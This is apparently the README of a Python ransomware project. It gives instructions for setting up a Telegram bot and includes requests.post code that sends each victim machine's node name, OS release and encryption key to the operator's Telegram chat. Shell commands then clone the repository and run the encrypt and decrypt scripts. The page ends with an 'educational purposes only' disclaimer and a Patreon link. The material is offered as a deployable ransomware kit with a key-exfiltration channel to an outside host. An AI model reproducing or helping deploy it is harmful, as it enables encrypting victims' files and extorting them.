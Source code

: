 >1)search Json Dump Bot<br/>
>2)/start<br/>
>3)telegramapi<br/>

    "from": {
        "id": 3213112048, your chat_id

    Send Message Example:

        requests.post("https://api.telegram.org/bot<your_telegram_api>g/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})

        requests.post("https://api.telegram.org/bot<your_telegram_api>/sendMessage",
                data={"chat_id": "<your_telegram_chat_id>", "text": f"Node: {node} Release: {release} \nKey: {str(key)}"})


# Installation

```sh
$ git clone https://github.com/networkkiller/killfile
$ cd python_ransomware
$ pip install -r requirements.txt
$ cd Encrypt
$ python3 encrypt.py
$ cd Decrypt
$ python3 decrypt.py
```

<hr>

## Attention ⚠️
These scripts contain stuff that can get you in trouble. This is for educational purposes only. Do not abuse.

## view Me patreon ☕
[!["follow me for more"](https://upload.wikimedia.org/wikipedia/commons/thumb/5/5a/Patreon_logomark.svg/1200px-Patreon_logomark.svg.png)](https://www.patreon.com/everyhats)
